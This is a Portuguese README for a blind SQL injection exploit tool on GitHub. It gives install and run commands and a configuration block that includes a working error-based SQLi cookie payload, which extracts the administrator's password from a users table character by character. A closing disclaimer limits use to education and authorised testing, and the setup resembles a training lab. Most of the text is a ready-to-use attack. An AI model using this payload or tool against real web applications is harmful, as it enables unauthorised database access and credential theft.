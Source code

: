 ## 📄 Licença

Este projeto está licenciado sob a licença MIT. Consulte o arquivo [LICENSE](LICENSE) para mais detalhes.

# Blind SQL Injection Exploit

Este repositório contém um script Python para explorar vulnerabilidades de **Blind SQL Injection** em uma aplicação web. O script é projetado para descobrir senhas de usuários de forma incremental, testando caracteres um por um.

## 📋 Requisitos ##

- Python 3
- Biblioteca `requests` instalada (`pip install requests`)

## 🚀 Como Usar ##

1. **Clone o repositório:**
   ```bash
   git clone https://github.com/LuizManezzi/tools_fuzzer.git
   cd tools_fuzzer.git
   
2. **Configure o exploit com os parametros de ataque**
-- Linha 97:
"Configurações do ataque<br>
url = "https://url.com"<br>
max_requests = 1000 -- Valor limite da requisição no pool<br>
status_check = 500 -- Status de retorno<br>
cookie_template = "'||(SELECT CASE WHEN SUBSTR(password,$1,1)='$2' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'" -- SQLi<br>
tamanho_senha = 20  # Defina o comprimento estimado da senha" -- Tamanho da senha. "

3. **Execute o exploit:**
   ```bash
   python3 fuzzer_for_blind_sqli.py


⚠️ Aviso Legal

Este script é apenas para fins educacionais e de teste em ambientes controlados. Nunca use este código em sistemas sem permissão explícita. O uso indevido pode resultar em consequências legais.
